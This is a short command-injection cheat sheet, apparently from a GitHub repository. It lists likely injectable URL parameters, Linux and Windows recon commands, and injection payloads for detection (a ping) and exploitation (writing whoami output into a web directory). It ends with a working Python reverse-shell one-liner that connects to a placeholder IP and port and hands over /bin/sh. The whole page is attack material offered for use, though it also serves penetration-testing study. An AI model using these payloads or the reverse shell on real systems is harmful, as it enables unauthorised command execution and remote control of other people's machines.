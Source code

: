 # 💉 Command Injection

## Parameters

```
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```

## Linux Commands

```
whoami
uname -a
ifconfig
netstat -an
ps -ef
```

## Windows Commands

```
whoami
ver
ipconfig /all
netstat -an
tasklist
```

## Command Injection Detection

```
& ping -c 10 127.0.0.1 &
```

## Exploiting Command Injection

```
& whoami > /var/www/static/whoami.txt &
```

## Python Reverse Shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP-Address>",<Port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
